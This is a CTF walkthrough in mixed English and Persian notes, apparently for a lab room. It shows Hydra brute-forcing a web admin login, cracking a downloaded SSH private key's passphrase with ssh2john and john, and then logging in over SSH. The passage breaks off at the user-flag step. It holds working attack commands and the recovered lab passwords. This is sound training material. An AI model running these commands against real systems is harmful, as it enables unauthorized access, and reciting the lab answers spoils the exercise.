 ```sh
```
##### TASK 3 - Getting a Shell
0. *Information needed for Attack*
	1. *HTTP Request Parameters*
		1. http://10.10.220.243/admin => `Inspect => Network tab =>`
		2. Login with `admin, admin` and you see request/response in Network tab
			1. ![[Pasted image 20240727204420.png]]
		3. Select `/admin/` request and goto `request tab` you see HTTP Parameters we need
			1. ![[Pasted image 20240727204541.png]]
		4. این دو پارامتر را باید در قسمت فرمت بندی URL پس از وارد کردن صفحه مربوط `:/admin/` وارد کنیم. همچنین این دو پارامتر باید در میان `^^` قرار گیرد تا حمله Brute Force بر روی این دو پارامتر  انجام شود. در زیر میتوانید نمونه ای از این فرمت بندی را مشاهده کنید >>
			1. `"/admin/:user=^USER^&pass=^PASS^:F=username or password is invalid"`
			2. `hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.220.243 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=username or password is invalid" -V -I -t 4`
	2. *Login Failure Messages*
		1. Login with Wrong Credential => Copy Login failure message
1. *Initialize Brute Force attack using `Hydra` - Get Flag*
	1. `hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.220.243 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=username or password is invalid" -V -I -t 4`
		1. `-V` Verbose mode
		2. `-I` Ignore any error duration of attack
		3. `-t 4`  Specify CPU threads using in attack
		4. *Image*
			1. ![[Pasted image 20240727205454.png]]
	2. *Attack Results*
		1. Password find for `admin` => `xavier`
			1. ![[Pasted image 20240727205605.png]]
		2. Login with `admin, xavier` in http://10.10.220.243/admin 
		3. در این صفحه میتوانیم `RSA Private Key` را دانلود کنیم و همچنین فلگ مرحله را هم در صفحه میتوانیم مشاهده کنیم:
			1. ![[Pasted image 20240727205753.png]]
	3. در این حمله هم توانستیم کلید `RSA Private Key` و همچنین فلگ مرحله را بدست بیاوریم.
2. *Cracking RSA Private Key using `john`*
	1. *Pre-Pare RSA Private Key* =>
		1. Open RSA Private Key in Browser http://10.10.220.243/admin/panel/id_rsa , then `copy` all contents in RSA Key
			1. ![[Pasted image 20240727210245.png]]
		2. Back to Kali, Create a new txt `key.txt` file and add copied contents to this file
			1. ![[Pasted image 20240727210443.png]]
	2. *Convert ssh key to suitable hash file for john using `ssh2john`* =>
		1. `ssh2john key.txt > hash.txt`
			1. ![[Pasted image 20240727210727.png]]
	3. *Cracking `hash.txt` using `john`* =>
		1. `john hash.txt -w="/usr/share/wordlists/rockyou.txt"`
			1. ![[Pasted image 20240727211009.png]]
		2. `john --show hash.txt`
	4. با کرک کلید RSA مقدار Passphrase را بدست آوردیم که با استفاده از این Passphrase و فایل کلید RSA میتوانیم بر بستر SSH به تارگت متصل شویم >> `rockinroll`
3. *Established SSH Connection to Target*
	1. *Pre-Pare RSA Private Key file & username* =>
		1. `cp key.txt key.pem`
		2. `chmod 600 key.pm`
			1. ![[Pasted image 20240727211412.png]]
		3. دقت کنید یوزر `admin` مربوط به وب پنل بود و یوزرنیم که باید برای ارتباط SSH استفاده کنیم، یوزر `john` است که در صفحه http://10.10.220.243/admin  و همچنین در Page Source میتوانستیم مشاهده کنیم.
			1. ![[Pasted image 20240727211742.png]]
	2. *Established SSH Connection* =>
		2. `ssh -i key.pem john@10.10.170.68` 
		3. Passphrase => `rockinroll`
			1. ![[Pasted image 20240727222201.png]]
		4. Now we can run any command in web server.
	3. *Get User Flag* =>